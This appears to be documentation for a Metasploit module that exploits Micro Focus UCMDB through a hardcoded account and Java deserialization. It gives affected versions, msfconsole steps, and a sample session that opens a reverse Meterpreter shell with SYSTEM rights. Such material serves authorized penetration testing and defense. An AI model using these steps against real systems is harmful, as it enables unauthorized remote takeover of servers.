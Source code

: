 ## Vulnerable Application

UCMDB is the vulnerable component, which is integrated into many Micro Focus products. MF have confirmed that the
following are affected by the hardcoded account vulnerability:

* Operation Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older
  versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

An additional number of applications are vulnerable to the Java deserialization. Note that this module leverages both
vulnerabilities, so it should only work in the above.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Both Linux and Windows installations are affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_ucmdb_unauth_deser`
4. `set rhost TARGET'
5. `set lhost YOUR_IP`
6. `set target 0|1`
7. `run`
8. You should get a shell.

## Scenarios

```
msf > use exploit/multi/http/microfocus_ucmdb_unauth_deser
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(multi/http/microfocus_ucmdb_unauth_deser) > set rhost 10.0.0.100
rhost => 10.0.0.100
msf exploit(multi/http/microfocus_ucmdb_unauth_deser) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf exploit(multi/http/microfocus_ucmdb_unauth_deser) > check
[+] 10.0.0.100:8443 - The target is vulnerable.
msf exploit(multi/http/microfocus_ucmdb_unauth_deser) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.100:8443 - Attacking Windows target
[+] 10.0.0.100:8443 - Successfully authenticated and obtained our cookie!
[*] 10.0.0.100:8443 - Sending payload to /services/DataAcquisitionService
[+] 10.0.0.100:8443 - Success, shell incoming!
[*] Sending stage (175174 bytes) to 10.0.0.100
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.100:50733) at 2021-01-24 22:16:36 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 15244 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPBSM\ucmdb\bin>whoami
whoami
nt authority\system

C:\HPBSM\ucmdb\bin>
```
